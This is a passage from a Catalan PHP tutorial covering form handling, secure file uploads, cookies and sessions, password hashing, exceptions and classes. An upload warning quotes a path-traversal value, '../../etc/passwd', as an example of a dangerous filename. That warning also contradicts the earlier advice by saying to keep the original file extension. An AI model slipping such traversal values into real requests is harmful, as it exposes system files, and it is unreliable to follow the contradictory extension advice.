    </label>
<?php endforeach; ?>
```

##### Radio buttons

```php
<?php
$generSeleccionat = $_POST['genere'] ?? '';
?>
<label><input type="radio" name="genere" value="h" <?= $generSeleccionat === 'h' ? 'checked' : '' ?>> Home</label>
<label><input type="radio" name="genere" value="d" <?= $generSeleccionat === 'd' ? 'checked' : '' ?>> Dona</label>
```

::: warning Atenció
En `checked` i `selected`, **no cal** (ni s'ha de) passar el resultat per `htmlspecialchars()`: no estem imprimint dades de l'usuari, sinó generant un atribut HTML fix a partir d'una comparació booleana feta en PHP.
:::

#### Alternativa: separar formulari i processament en dos arxius

Quan es prefereix separar la vista del processament (com vam vore al punt 3), les dades es passen normalment mitjançant `$_SESSION` (que veurem en detall al punt 5), ja que després d'un `header('Location: ...')` els valors de `$_POST` es perden.

```php
<?php
// processar.php
session_start();
$nom = trim($_POST['nom'] ?? '');

if ($nom === '') {
    $_SESSION['errors'] = ['El nom és obligatori.'];
    $_SESSION['old'] = ['nom' => $nom]; // valors previs
    header('Location: formulari.php');
    exit;
}
```

```php
<?php
// formulari.php
session_start();
$errors = $_SESSION['errors'] ?? [];
$old = $_SESSION['old'] ?? ['nom' => ''];
unset($_SESSION['errors'], $_SESSION['old']); // Netejar per a la següent visita
?>
<input type="text" name="nom" value="<?= e($old['nom']) ?>">
```

::: info Nota
Este patró (redirigir després d'un POST, en lloc de mostrar el resultat directament) es coneix com **PRG** (*Post/Redirect/Get*) i té una avantatge important: evita que, si l'usuari refresca la pàgina, el navegador torne a enviar el formulari (i, per exemple, duplique una comanda).
:::




---

📌 **A recordar:** un sticky form reomplin sempre els valors previs de l'usuari, passats per `htmlspecialchars()`; per a `select`/`checkbox`/`radio` cal comparar el valor guardat per a decidir si s'afig `selected`/`checked`.


### 4.5. Pujar arxius i imatges

Per a permetre que un usuari puge un arxiu (una imatge de perfil, un currículum en PDF...) calen dos requisits imprescindibles: que el formulari tinga l'atribut `enctype="multipart/form-data"` i que el mètode siga `POST` (els arxius **no** es poden pujar amb `GET`).

::: warning Atenció
Si s'oblida l'`enctype="multipart/form-data"`, el formulari s'enviarà igualment, però l'array `$_FILES` estarà **buit**: és l'error més freqüent en pujar arxius.
:::

```html
<form method="post" action="pujar.php" enctype="multipart/form-data">
    <label for="foto">Selecciona una imatge:</label>
    <input type="file" id="foto" name="foto" accept="image/*">

    <button type="submit">Puja</button>
</form>
```

#### L'array `$_FILES`

Ja el vam introduir breument al punt 1. Quan es puja un arxiu amb `name="foto"`, PHP genera automàticament esta estructura:

```php
<?php
print_r($_FILES['foto']);
/*
Array
(
    [name]     => vacances.jpg      // Nom original de l'arxiu al PC de l'usuari
    [type]     => image/jpeg        // Tipus MIME que envia el navegador (no fiable!)
    [tmp_name] => /tmp/phpA1B2C3    // Ruta temporal on PHP l'ha guardat
    [error]    => 0                 // Codi d'error (0 = sense errors)
    [size]     => 204800            // Grandària en bytes
)
*/
```

::: info 📖 Documentació oficial
[PHP: $_FILES](https://www.php.net/manual/es/reserved.variables.files.php)
:::

#### Codis d'error de pujada

Abans de processar l'arxiu, cal comprovar sempre el camp `error`:

| Constant | Valor | Significat |
|---|---|---|
| `UPLOAD_ERR_OK` | 0 | Sense errors |
| `UPLOAD_ERR_INI_SIZE` | 1 | Supera `upload_max_filesize` del `php.ini` |
| `UPLOAD_ERR_FORM_SIZE` | 2 | Supera el `MAX_FILE_SIZE` del formulari |
| `UPLOAD_ERR_PARTIAL` | 3 | L'arxiu només s'ha pujat parcialment |
| `UPLOAD_ERR_NO_FILE` | 4 | No s'ha pujat cap arxiu |

```php
<?php
if ($_FILES['foto']['error'] !== UPLOAD_ERR_OK) {
    die('Error en la pujada de l\'arxiu.');
}
```


#### Validar el tipus i la grandària de l'arxiu

::: danger Error crític
**Mai** et fies del camp `$_FILES['foto']['type']` per a validar el tipus d'arxiu: eixe valor l'envia el navegador del client i es pot falsificar fàcilment. Per a comprovar el tipus real cal inspeccionar el **contingut** de l'arxiu.
:::

```php
<?php
$arxiuTemporal = $_FILES['foto']['tmp_name'];
$grandariaMaxima = 2 * 1024 * 1024; // 2 MB

// Comprova el tipus real llegint la capçalera de l'arxiu (finfo)
$finfo = new finfo(FILEINFO_MIME_TYPE);
$tipusReal = $finfo->file($arxiuTemporal);

$tipusPermesos = ['image/jpeg', 'image/png', 'image/webp'];

if (!in_array($tipusReal, $tipusPermesos, true)) {
    die('Només es permeten imatges JPEG, PNG o WEBP.');
}

if ($_FILES['foto']['size'] > $grandariaMaxima) {
    die('L\'arxiu no pot superar els 2 MB.');
}
```

::: tip Bona pràctica
Per a validar específicament que un arxiu és una imatge vàlida (i no, per exemple, un arxiu PHP disfressat amb extensió `.jpg`), la funció `getimagesize()` és encara més fiable: si l'arxiu no és una imatge real, retorna `false`.
:::

```php
<?php
if (getimagesize($arxiuTemporal) === false) {
    die('L\'arxiu no és una imatge vàlida.');
}
```
#### Moure l'arxiu a la seua ubicació definitiva

L'arxiu pujat es guarda inicialment en una carpeta temporal del sistema i s'elimina automàticament en acabar l'script si no es mou. Cal usar `move_uploaded_file()` per a moure'l.

Una vegada validat el tipus real de l'arxiu amb `finfo`, **no hem d'utilitzar l'extensió proporcionada pel nom original** per a construir el nom final. El nom original és una dada controlada per l'usuari i la seua extensió no té per què coincidir amb el contingut real de l'arxiu.

Per tant, associem cada tipus MIME permés amb la seua extensió i utilitzem aquesta informació per a generar el nom final:

```php
<?php

$carpetaDesti = __DIR__ . '/pujades/';

$tipusPermesos = [
    'image/jpeg' => 'jpg',
    'image/png'  => 'png',
    'image/webp' => 'webp',
];

$finfo = new finfo(FILEINFO_MIME_TYPE);
$tipusReal = $finfo->file($arxiuTemporal);

if (!isset($tipusPermesos[$tipusReal])) {
    die('Tipus d\'arxiu no permés.');
}

// L'extensió es deriva del tipus real detectat, no del nom original.
$extensio = $tipusPermesos[$tipusReal];

$nomFinal = uniqid('img_', true) . '.' . $extensio;
$rutaDesti = $carpetaDesti . $nomFinal;

if (move_uploaded_file($arxiuTemporal, $rutaDesti)) {
    echo "Arxiu pujat correctament com a: " . htmlspecialchars($nomFinal);
} else {
    echo 'Error en moure l\'arxiu.';
}
```

**Per què?**

`$_FILES['foto']['name']` conté el nom original proporcionat pel client i, per tant, no s'ha d'utilitzar per decidir quin tipus d'arxiu hem rebut. `finfo` inspecciona el contingut i ens permet determinar el tipus MIME que ha detectat el servidor.

Per exemple, si un usuari envia un arxiu anomenat `shell.php` però el contingut és identificat com a `image/png`, l'aplicació ha d'utilitzar l'extensió associada al tipus permés (`.png`) i **no** conservar `.php`.

A més, per a una aplicació real, és recomanable guardar els arxius pujats fora del directori públic sempre que siga possible. Si han d'estar dins del directori públic, el servidor web ha d'estar configurat per a impedir l'execució de codi en la carpeta de pujades.


::: warning Atenció
No confies mai en `$_FILES['foto']['name']` per a construir la ruta final sense processar-lo abans: podria contindre caràcters perillosos o intents de *path traversal* (com `../../etc/passwd`). Genera sempre un nom nou (per exemple, amb `uniqid()`) i queda't només amb l'extensió del nom original.
:::




#### Configuració rellevant al `php.ini`

Estos límits es configuren al servidor i no es poden canviar des de PHP en temps d'execució:

```ini
upload_max_filesize = 2M
post_max_size = 8M
max_file_uploads = 20
```

::: info Nota
`post_max_size` ha de ser sempre **igual o major** que `upload_max_filesize`, ja que l'arxiu viatja dins del cos de la petició `POST`.
:::

📌 **A recordar:** valida el contingut real de l'arxiu, associa el MIME validat amb una extensió coneguda i genera sempre un nom nou. No utilitzes l'extensió del nom original per a determinar el tipus de l'arxiu.


## 5. Cookies i sessions

HTTP és un protocol **sense estat** (*stateless*): cada petició que arriba al servidor és independent de les anteriors, i el servidor no "recorda" per si sol qui és l'usuari d'una petició a la següent. Les **cookies** i les **sessions** són els dos mecanismes principals que permeten mantindre informació entre peticions (per exemple, saber que un usuari ha iniciat sessió).

::: info Nota
Encara que sovint es parlen juntes, cookies i sessions són tècniques diferents i complementàries: les cookies guarden dades **en el navegador** de l'usuari, mentre que les sessions guarden dades **en el servidor**, identificant a l'usuari mitjançant un identificador que sí viatja en una cookie.
:::

### Cookies

Una cookie és un xicotet fragment d'informació (clau-valor) que el servidor envia al navegador, i que este torna a enviar automàticament en cada petició posterior al mateix domini.

#### Crear una cookie: `setcookie()`

```php
<?php
setcookie('tema', 'fosc', time() + 3600 * 24 * 30); // Expira en 30 dies
```

::: danger Error crític
Igual que amb `header()` (punt 2), `setcookie()` envia una capçalera HTTP i, per tant, s'ha de cridar **abans** que s'envie qualsevol contingut a la pàgina.
:::

Paràmetres més habituals de `setcookie()`:

```php
<?php
setcookie(
    name: 'tema',
    value: 'fosc',
    expires_or_options: time() + 3600 * 24 * 30, // Data d'expiració (timestamp)
    path: '/',            // Disponible en tot el lloc web
    domain: '',           // Domini actual
    secure: true,          // Només s'envia per HTTPS
    httponly: true         // No accessible des de JavaScript (protecció XSS)
);
```

::: tip Bona pràctica
Activa sempre `httponly: true` en cookies sensibles (com la de sessió): impedix que JavaScript hi accedisca amb `document.cookie`, reduint l'impacte d'un possible atac XSS (vist al punt 4.3). Activa `secure: true` sempre que el lloc funcione amb HTTPS.
:::

#### Llegir una cookie

Ja ho vam vore al punt 1: es fa a través de la supervariable `$_COOKIE`.

```php
<?php
$tema = $_COOKIE['tema'] ?? 'clar'; // Valor per defecte si no existeix
```

::: warning Atenció
Quan es crea una cookie amb `setcookie()`, esta **no** estarà disponible a `$_COOKIE` fins a la **següent** petició HTTP. Dins del mateix script on s'ha creat, encara no hi serà.
:::

#### Eliminar una cookie

No existeix una funció `deletecookie()`: s'elimina establint una data d'expiració en el passat.

```php
<?php
setcookie('tema', '', time() - 3600, '/');
```

#### Sense data d'expiració: *session cookies*

Si no s'indica el paràmetre `expires`, la cookie és una **cookie de sessió del navegador**: desapareix quan l'usuari tanca el navegador (no s'ha de confondre amb les sessions de PHP, que veurem tot seguit).

```php
<?php
setcookie('avis_acceptat', '1'); // S'elimina en tancar el navegador
```

### Sessions

Una sessió permet guardar dades associades a un usuari **en el servidor**, evitant els límits de grandària i les qüestions de seguretat de guardar-ho tot en cookies. El client només rep, mitjançant una cookie (per defecte anomenada `PHPSESSID`), un identificador únic de sessió; les dades reals mai viatgen al navegador.

#### Iniciar una sessió: `session_start()`

```php
<?php
session_start(); // Ha d'anar SEMPRE al principi de l'script, abans de cap eixida
```

::: danger Error crític
`session_start()` també envia una capçalera (la cookie `PHPSESSID`), per la qual cosa s'aplica la mateixa regla que amb `header()`: cap contingut abans de cridar-la. A més, **s'ha de cridar en tots els arxius** que necessiten llegir o escriure `$_SESSION`.
:::

#### Guardar i llegir dades de sessió

Una vegada iniciada, `$_SESSION` es comporta com un array associatiu normal:

```php
<?php
session_start();

$_SESSION['usuari'] = 'ana';
$_SESSION['rol'] = 'estudiant';
$_SESSION['carret'] = ['llapis', 'quadern'];
```

```php
<?php
// En una altra pàgina, també cal cridar session_start() primer
session_start();

echo 'Sessió iniciada per: ' . htmlspecialchars($_SESSION['usuari'] ?? 'ningú');
```

#### Eliminar dades i tancar la sessió

```php
<?php
session_start();

unset($_SESSION['carret']);      // Elimina només una clau
$_SESSION = [];                   // Buida totes les dades de la sessió

session_destroy();                // Destruïx la sessió al servidor
```


#### Exemple pràctic: comptador de visites

```php
<?php
session_start();

$_SESSION['visites'] = ($_SESSION['visites'] ?? 0) + 1;

echo "Has visitat esta pàgina {$_SESSION['visites']} vegades.";
```

#### Exemple pràctic: control d'accés bàsic

```php
<?php
// pagina_privada.php
session_start();

if (!isset($_SESSION['usuari'])) {
    header('Location: login.php');
    exit;
}

echo 'Benvingut/da, ' . htmlspecialchars($_SESSION['usuari']);
```

::: info Nota
Este patró és la base de l'autenticació d'usuaris que veurem en detall al punt 6: la sessió és el mecanisme que "recorda" que un usuari ha iniciat sessió correctament en peticions successives.
:::

### Cookies vs Sessions: quan usar cada una

| | Cookies | Sessions |
|---|---|---|
| On es guarden les dades | Navegador del client | Servidor |
| Grandària màxima | ~4 KB per cookie | Sense límit pràctic |
| Durada | Configurable (dies, mesos...) | Normalment fins tancar el navegador |
| Visibilitat per a l'usuari | Pot veure-les i editar-les | No té accés directe |
| Ús típic | Preferències (tema, idioma), "recorda'm" | Dades d'autenticació, carret de compra |

---

📌 **A recordar:** `setcookie()` i `session_start()` han de cridar-se abans de qualsevol eixida; les cookies guarden dades al client (útils per a preferències), les sessions al servidor (útils per a dades sensibles com l'autenticació).


## 6. Autenticació d'usuaris (password_hash i password_verify)

Autenticar un usuari significa comprovar que la contrasenya que introduïx coincidix amb la que té registrada. El punt més important d'esta secció és entendre que **mai s'ha de guardar una contrasenya en text pla** a la base de dades: si algú accedira a la BD (per un atac, una fuga de dades...), tindria accés directe a totes les contrasenyes dels usuaris.

::: danger Error crític
Guardar contrasenyes en text pla, o fins i tot amb algorismes de xifratge reversible, és una **greu vulnerabilitat de seguretat**. Les contrasenyes s'han de guardar sempre amb una funció de **hash** dissenyada específicament per a este propòsit.
:::

### Per què no n'hi ha prou amb `md5()` o `sha1()`

Podries pensar a utilitzar funcions com `md5()` o `sha1()` per a "amagar" la contrasenya. **No ho faces mai.** Estos algorismes es van dissenyar per a ser **ràpids**, la qual cosa és exactament el contrari del que interessa per a contrasenyes: un atacant amb la BD filtrada podria provar milers de milions de combinacions per segon (*força bruta*, taules *rainbow*) fins a trobar la contrasenya original.

```php
<?php
// ❌ MAI FACES AIXÒ
$hashInsegur = md5($contrasenya); // Trencable en fraccions de segon
```

### La solució: `password_hash()`

PHP incorpora una API específica per a gestionar contrasenyes de manera segura, que utilitza l'algorisme **bcrypt** per defecte (dissenyat per ser intencionadament lent i costós de calcular, dificultant els atacs de força bruta).

```php
<?php
$contrasenya = 'laMeuaContrasenya123';

$hash = password_hash($contrasenya, PASSWORD_DEFAULT);

echo $hash;
// Eixida (sempre diferent, encara que la contrasenya siga la mateixa):
// $2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi
```

::: info Nota
Cada vegada que crides `password_hash()` amb la mateixa contrasenya, obtens un resultat **diferent**. Açò es deu al fet que la funció incorpora automàticament un valor aleatori (*salt*) en el hash, evitant que dos usuaris amb la mateixa contrasenya tinguen el mateix hash guardat.
:::

`PASSWORD_DEFAULT` utilitza sempre l'algorisme recomanat per l'equip de PHP en cada versió (actualment **bcrypt**), i pot canviar en versions futures de PHP a mesura que apareguen algorismes millors. Per això és preferible a especificar un algorisme fix com `PASSWORD_BCRYPT`.

### Registrar un usuari

```php
<?php
$contrasenya = $_POST['contrasenya'] ?? '';
$confirmacio = $_POST['confirmacio'] ?? '';

if ($contrasenya !== $confirmacio) {
    $errors[] = 'Les contrasenyes no coincidixen.';
} elseif (strlen($contrasenya) < 8) {
    $errors[] = 'La contrasenya ha de tindre almenys 8 caràcters.';
}

if (empty($errors)) {
    $hash = password_hash($contrasenya, PASSWORD_DEFAULT);

    // En un cas real, ací es guardaria $hash a la base de dades
    // NUNCA es guarda $contrasenya (la original en text pla)
    echo 'Usuari registrat correctament.';
}
```

### Verificar una contrasenya: `password_verify()`

Per a comprovar si la contrasenya que introduïx l'usuari en iniciar sessió és correcta, **no es desxifra el hash** (bcrypt no és reversible): es torna a fer el càlcul i es comprova si coincidix.

```php
<?php
$contrasenyaIntroduida = $_POST['contrasenya'] ?? '';

// Este hash vindria normalment d'una consulta a la base de dades
$hashGuardat = '$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi';

if (password_verify($contrasenyaIntroduida, $hashGuardat)) {
    echo 'Contrasenya correcta!';
} else {
    echo 'Contrasenya incorrecta.';
}
```




### Exemple pràctic complet: registre i inici de sessió

**`usuaris_bd.php`** (simulant una "base de dades" amb un array, per simplicitat)

```php
<?php
// Simulació d'una BD d'usuaris (en un cas real seria una taula de MySQL)
$usuaris = [
    'ana' => [
        'hash' => password_hash('contrasenya123', PASSWORD_DEFAULT)
    ]
];
```

**`login.php`**

```php
<?php
session_start();
require __DIR__ . '/usuaris_bd.php'; // Conté l'array $usuaris de l'exemple anterior

$errors = [];

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $usuari = trim($_POST['usuari'] ?? '');
    $contrasenya = $_POST['contrasenya'] ?? '';

    if (isset($usuaris[$usuari]) && password_verify($contrasenya, $usuaris[$usuari]['hash'])) {
        // Regenerar l'ID de sessió en autenticar: evita fixació de sessió
        session_regenerate_id(true);

        $_SESSION['usuari'] = $usuari;
        header('Location: pagina_privada.php');
        exit;
    } else {
        $errors[] = 'Usuari o contrasenya incorrectes.';
    }
}
?>
<!DOCTYPE html>
<html lang="ca">
<body>
    <?php foreach ($errors as $error): ?>
        <p style="color:red"><?= htmlspecialchars($error) ?></p>
    <?php endforeach; ?>

    <form method="post" action="">
        <input type="text" name="usuari" placeholder="Usuari">
        <input type="password" name="contrasenya" placeholder="Contrasenya">
        <button type="submit">Inicia sessió</button>
    </form>
</body>
</html>
```

::: tip Bona pràctica
Crida sempre `session_regenerate_id(true)` just després d'autenticar un usuari correctament. Açò genera un nou identificador de sessió, evitant un tipus d'atac anomenat *fixació de sessió* (on un atacant força a una víctima a usar un ID de sessió que ja coneix).
:::


**`pagina_privada.php`**

```php
<?php
session_start();

if (!isset($_SESSION['usuari'])) {
    header('Location: login.php');
    exit;
}
?>
<p>Benvingut/da, <?= htmlspecialchars($_SESSION['usuari']) ?>!</p>
<a href="logout.php">Tancar sessió</a>
```

**`logout.php`**

```php
<?php
session_start();
$_SESSION = [];
session_destroy();
header('Location: login.php');
exit;
```

### Missatges genèrics per a no revelar informació

::: warning Atenció
No indiques mai si l'error és "l'usuari no existeix" o "la contrasenya és incorrecta" per separat: dóna sempre un missatge genèric com "Usuari o contrasenya incorrectes". Si no, un atacant podria esbrinar quins noms d'usuari existixen al sistema simplement provant-los un a un.
:::


📌 **A recordar:** mai guardes contrasenyes en text pla ni amb `md5()`/`sha1()`; utilitza sempre `password_hash()` per a crear-les i `password_verify()` per a comprovar-les; regenera l'ID de sessió (`session_regenerate_id()`) després d'un login correcte.


## 7. Gestió d'errors i excepcions

Fins ara, quan volíem detectar un problema (una dada no vàlida, un arxiu que no existix...) ho hem fet amb comprovacions manuals (`if`, arrays d'`$errors`...). PHP incorpora, a més, un sistema propi per a gestionar **errors** i **excepcions** de manera estructurada, especialment útil quan el problema és inesperat o quan es treballa amb funcions/mètodes que poden fallar de moltes maneres diferents.

::: info Nota
És important distingir dos conceptes que sovint es confonen: els **errors** són problemes de baix nivell del propi llenguatge (una funció que no existix, un tipus incorrecte...), mentre que les **excepcions** són objectes que el propi programador (o una llibreria) llança de manera intencionada quan detecta una situació anòmala.
:::

### Tipus d'errors en PHP

| Tipus | Descripció | Exemple |
|---|---|---|
| `Notice` / `Warning` | Avís lleu, l'script continua | Accedir a una clau d'array inexistent |
| `Error` (fatal) | L'script s'atura immediatament | Cridar a una funció que no existix |
| `Exception` | Situació anòmala llançada intencionadament | Dividir per zero, dada no vàlida |

```php
<?php
// Warning: no atura l'script
echo $variableNoDefinida ?? 'valor per defecte';

// Error fatal: sí atura l'script
funcioQueNoExisteix();
```


### `try`, `catch` i `throw`

Una **excepció** és un objecte que representa un error. Es "llança" amb `throw` i es "captura" amb `try`/`catch`, evitant que l'script s'ature de colp i permetent reaccionar-hi de manera controlada.

```php
<?php
function dividir(float $a, float $b): float {
    if ($b === 0.0) {
        throw new Exception('No es pot dividir per zero.');
    }
    return $a / $b;
}

try {
    echo dividir(10, 0);
} catch (Exception $e) {
    echo 'S\'ha produït un error: ' . htmlspecialchars($e->getMessage());
}

echo 'L\'script continua executant-se amb normalitat.';
```

::: tip Bona pràctica
El codi dins del bloc `try` s'ha d'executar sempre fins que troba el problema; si `dividir()` llança l'excepció, l'`echo` posterior a dins del `try` **no** s'arriba a executar, i el control passa directament al `catch`.
:::

### El bloc `finally`

S'executa **sempre**, tant si hi ha hagut excepció com si no. Útil per a tasques de neteja (tancar un arxiu, una connexió...).

```php
<?php
try {
    echo dividir(10, 0);
} catch (Exception $e) {
    echo 'Error: ' . htmlspecialchars($e->getMessage());
} finally {
    echo 'Este bloc s\'executa sempre, hi haja error o no.';
}
```

### Mètodes útils de l'objecte `Exception`

```php
<?php
try {
    throw new Exception('Missatge d\'error personalitzat', 42);
} catch (Exception $e) {
    echo $e->getMessage();  // 'Missatge d'error personalitzat'
    echo $e->getCode();     // 42
    echo $e->getLine();     // Línia on s'ha llançat l'excepció
    echo $e->getFile();     // Arxiu on s'ha llançat l'excepció
}
```

---

📌 **A recordar:** utilitza `try`/`catch`/`throw` per a gestionar situacions anòmales de manera controlada; ordena els `catch` de més específic a més genèric; no reveles mai detalls tècnics de les excepcions a l'usuari final.


## 8. Classes i objectes

Ja coneixes la programació orientada a objectes des de Java (1r curs del cicle): classes, atributs, mètodes, constructors, herència... Els conceptes són exactament els mateixos; el que canvia és la **sintaxi** i algunes particularitats pròpies de PHP. Este punt se centra, per tant, en com s'apliquen eixos conceptes en PHP, no en explicar la POO des de zero.

::: info Nota
PHP és un llenguatge de tipatge dinàmic i opcional (a diferència de Java), també en POO: pots indicar tipus als atributs, paràmetres i valors de retorn (com farem en tots els exemples), però no és obligatori fer-ho.
:::


### Definir una classe

```php
<?php
class Usuari {
    // Atributs (propietats)
    public string $nom;
    public string $email;
    private string $contrasenyaHash;

    // Constructor
    public function __construct(string $nom, string $email, string $contrasenya) {
        $this->nom = $nom;
        $this->email = $email;
        $this->contrasenyaHash = password_hash($contrasenya, PASSWORD_DEFAULT);
    }

    // Mètode
    public function verificarContrasenya(string $contrasenya): bool {
        return password_verify($contrasenya, $this->contrasenyaHash);
    }

    public function __toString(): string {
        return "{$this->nom} <{$this->email}>";
    }
}
```

```php
<?php
$usuari = new Usuari('Ana', 'ana@exemple.com', 'contrasenya123');

echo $usuari->nom;                                  // Ana
echo $usuari->verificarContrasenya('contrasenya123'); // true (1)
echo $usuari;                                        // Ana <ana@exemple.com> (crida __toString)
```

::: warning Atenció
En PHP, l'accés a propietats i mètodes es fa amb la fletxa `->`, **no** amb el punt (`.`) com en Java. El punt en PHP és l'operador de concatenació de cadenes (ja el coneixes de la unitat anterior).
:::

### Visibilitat: `public`, `private`, `protected`

Exactament els mateixos tres nivells que en Java:

| Modificador | Accés |
|---|---|
| `public` | Des de qualsevol lloc |
| `protected` | Des de la mateixa classe i les seues subclasses |
| `private` | Només des de la mateixa classe |

```php
<?php
class CompteBancari {
    private float $saldo = 0;

    public function ingressar(float $import): void {
        if ($import > 0) {
            $this->saldo += $import;
        }
    }

    public function consultarSaldo(): float {
        return $this->saldo;
    }
}

$compte = new CompteBancari();
$compte->ingressar(100);
echo $compte->consultarSaldo(); // 100

// echo $compte->saldo; // ❌ Error: no es pot accedir a una propietat privada
```

::: tip Bona pràctica
Com en Java, declara les propietats com a `private` per defecte i exposa'n l'accés només a través de mètodes públics (*getters*/*setters* o mètodes amb lògica, com `ingressar()`). Açò es coneix com **encapsulació**.
:::

### Propietats promocionades del constructor (PHP 8+)

PHP permet, des de la versió 8.0, estalviar-se la redundància de declarar la propietat i assignar-la al constructor, fent-ho tot alhora:

```php
<?php
class Producte {
    public function __construct(
        private string $nom,
        private float $preu,
        private int $estoc = 0
    ) {}

    public function getNom(): string {
        return $this->nom;
    }

    public function getPreu(): float {
        return $this->preu;
    }
}

$producte = new Producte('Teclat', 25.99, 10);
echo $producte->getNom(); // Teclat
```

::: info Nota
Este exemple és equivalent a declarar les tres propietats `private` fora del constructor i assignar-les manualment amb `$this->nom = $nom;`, etc. És una simplificació sintàctica molt utilitzada en codi PHP modern (i en frameworks com Laravel).
:::

### Herència: `extends`

```php
<?php
class Persona {
    public function __construct(
        protected string $nom,
        protected int $edat
    ) {}

    public function presentar(): string {
        return "Sóc {$this->nom} i tinc {$this->edat} anys.";
    }
}

class Estudiant extends Persona {
    public function __construct(
        string $nom,
        int $edat,
        private string $cicle
    ) {
        parent::__construct($nom, $edat); // Crida al constructor de la classe mare
    }

    // Sobreescriptura (override) d'un mètode
    public function presentar(): string {
        return parent::presentar() . " Curse el cicle de {$this->cicle}.";
    }
}

$estudiant = new Estudiant('Bru', 17, 'DAW');
echo $estudiant->presentar();
// Sóc Bru i tinc 17 anys. Curse el cicle de DAW.
```

::: warning Atenció
Fixa't que `nom` i `edat` estan declarades com a `protected` (no `private`) a `Persona`: així la subclasse `Estudiant` hi pot accedir directament amb `$this->nom`. Amb `private`, ni tan sols les subclasses hi tindrien accés.
:::

### Classes abstractes i interfícies

Igual que en Java, PHP distingix entre **classes abstractes** (`abstract class`) i **interfícies** (`interface`).

```php
<?php
interface Notificable {
    public function enviarNotificacio(string $missatge): void;
}

abstract class Figura {
    abstract public function calcularArea(): float;

    public function descriure(): string {
        return 'Esta figura té una àrea de ' . $this->calcularArea() . ' unitats quadrades.';
    }
}

class Rectangle extends Figura implements Notificable {
    public function __construct(
        private float $base,
        private float $altura
    ) {}

    public function calcularArea(): float {
        return $this->base * $this->altura;
    }

    public function enviarNotificacio(string $missatge): void {
        echo "Notificació: $missatge";
    }
}

$rectangle = new Rectangle(4, 5);
echo $rectangle->descriure();          // Esta figura té una àrea de 20 unitats quadrades.
$rectangle->enviarNotificacio('Hola'); // Notificació: Hola
```

::: info Nota
Com en Java: una classe abstracta no es pot instanciar directament (`new Figura()` donaria error) i pot combinar mètodes ja implementats (com `descriure()`) amb mètodes abstractes que obliguen a implementar-los a les subclasses (`calcularArea()`). Una classe pot implementar (`implements`) diverses interfícies, però només pot estendre (`extends`) **una** classe.
:::

### Propietats i mètodes estàtics

Pertanyen a la classe en si, no a una instància concreta. S'accedixen amb `::` en lloc de `->`.

```php
<?php
class Comptador {
    private static int $total = 0;

    public function __construct() {
        self::$total++;
    }

    public static function getTotal(): int {
        return self::$total;
    }
}

new Comptador();
new Comptador();
new Comptador();

echo Comptador::getTotal(); // 3
```

::: tip Bona pràctica
Dins d'una classe, s'utilitza `self::` per a referir-se a propietats o mètodes estàtics de la pròpia classe (equivalent conceptualment al `NomClasse.` estàtic de Java), mentre que `$this->` s'utilitza per a propietats i mètodes d'instància.
:::

### Constants de classe

```php
<?php
class Configuracio {
    const VERSIO = '1.0';
    const MAX_INTENTS_LOGIN = 3;
}

echo Configuracio::VERSIO; // 1.0
```

### `readonly` (PHP 8.1+)

Propietats que, una vegada assignades (normalment al constructor), no es poden modificar. Útil per a objectes immutables.

```php
<?php
class Punt {
    public function __construct(
        public readonly float $x,
        public readonly float $y
    ) {}
}

$punt = new Punt(3, 4);
echo $punt->x; // 3

// $punt->x = 10; // ❌ Error: no es pot modificar una propietat readonly
```

### Namespaces: organitzar classes en projectes grans

En Java estàs acostumat als paquets (`package`); en PHP l'equivalent són els **espais de noms** (*namespaces*), que eviten col·lisions de noms entre classes de diferents parts d'un projecte (o de llibreries externes).

```php
<?php
// arxiu: src/Model/Usuari.php
namespace App\Model;

class Usuari {
    // ...
}
```

```php
<?php
// arxiu: index.php
require __DIR__ . '/src/Model/Usuari.php';

use App\Model\Usuari;

$usuari = new Usuari();
```

::: info Nota
En projectes reals, els namespaces es combinen amb l'**autoload** de Composer (seguint l'estàndard **PSR-4**), de manera que no cal fer `require` manualment de cada arxiu de classe. Ho veurem amb detall quan treballem amb Laravel.
:::

> 📖 Documentació oficial: [PHP: Espacios de nombres](https://www.php.net/manual/es/language.namespaces.php)

---

📌 **A recordar:** els conceptes de POO són els mateixos que ja coneixes de Java; canvia la sintaxi (`->` en lloc de `.`, `$this->` en lloc de `this.`, `::` per a membres estàtics) i PHP afig facilitats pròpies com les propietats promocionades del constructor o `readonly`.


## 9. Debug, proves i documentació [Ampliació]

Fins ara, per a detectar errors hem utilitzat sobretot `echo` i `print_r()` col·locats manualment al codi. En este últim punt vorem, de manera bàsica, ferramentes més professionals per a depurar codi (Xdebug), per a comprovar que funciona correctament de manera automatitzada (PHPUnit) i per a documentar-lo (PHPDoc).

### Depuració bàsica sense ferramentes externes

Abans d'introduir Xdebug, recorda les funcions natives que ja pots utilitzar en qualsevol entorn:

```php
<?php
var_dump($variable);      // Mostra el tipus i el valor, amb molt de detall
print_r($array);          // Mostra el contingut d'un array/objecte de manera llegible
echo gettype($variable);  // Mostra el tipus de la variable
```

::: tip Bona pràctica
Embolica les crides de depuració temporal amb un comentari clar (`// DEBUG`) o, millor encara, elimina-les abans de pujar el codi a producció. Deixar `var_dump()` oblidats és un error molt comú.
:::

::: warning Atenció
Per a veure els *warnings* i *notices* mentre desenvolupes (útils per a detectar variables no definides, per exemple), assegura't que `display_errors` i `error_reporting(E_ALL)` estan activats al teu entorn de desenvolupament. En producció, en canvi, estos errors s'han de registrar en un log i **mai** mostrar-se a l'usuari.
:::

```php
<?php
// Configuració recomanada en desenvolupament (a l'inici de l'script, o al php.ini)
ini_set('display_errors', 1);
error_reporting(E_ALL);
```


### Xdebug: depuració pas a pas

**Xdebug** és una extensió de PHP que permet depurar el codi de manera molt més potent que amb `var_dump()`: col·locar *breakpoints* (punts d'aturada), executar l'script línia a línia, inspeccionar l'estat de totes les variables en cada moment i vore la pila de crides (*call stack*), directament des de l'editor.

::: info Nota
A diferència de les altres ferramentes d'esta unitat, Xdebug **no s'instal·la amb Composer**: és una extensió de PHP que s'ha d'habilitar a nivell de servidor/entorn (XAMPP, Docker, etc.) i configurar a l'editor (VS Code, PhpStorm...).
:::

#### Ús bàsic amb Visual Studio Code

1. Instal·lar l'extensió **PHP Debug** (de Xdebug) al VS Code.
2. Col·locar un *breakpoint* fent clic a l'esquerra del número de línia.
3. Iniciar la depuració (F5) i fer la petició al navegador: l'execució s'aturarà al breakpoint.
4. Des del panell de depuració es pot inspeccionar cada variable, avançar línia a línia (*step over*, *step into*) i continuar l'execució.

::: tip Bona pràctica
